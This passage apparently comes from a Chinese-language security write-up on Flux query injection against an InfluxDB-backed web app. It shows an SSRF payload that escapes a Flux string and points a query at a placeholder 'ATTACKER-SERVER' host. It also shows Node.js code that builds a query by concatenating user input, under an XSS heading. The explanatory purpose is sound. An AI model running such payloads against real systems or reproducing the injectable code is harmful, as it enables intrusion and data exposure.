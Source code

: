 可以看见这里的值为 1337

## SSRF 利用

在官方文档中，可以看见 influxdb 在 from 函数之中是可以接受 host 参数的

[![](assets/1706957940-4e285c9d970a05c6b41c99236aaa0031.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233833-f5117fe2-c117-1.png)

所以可以构造 playload：

```bash
") |> yield(name: "1337")
 from(bucket: "1337", host:"https://ATTACKER-SERVER") |> range(start:0)
 //
```

## XSS 利用

看见上面构建的程序

```bash
app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});
```
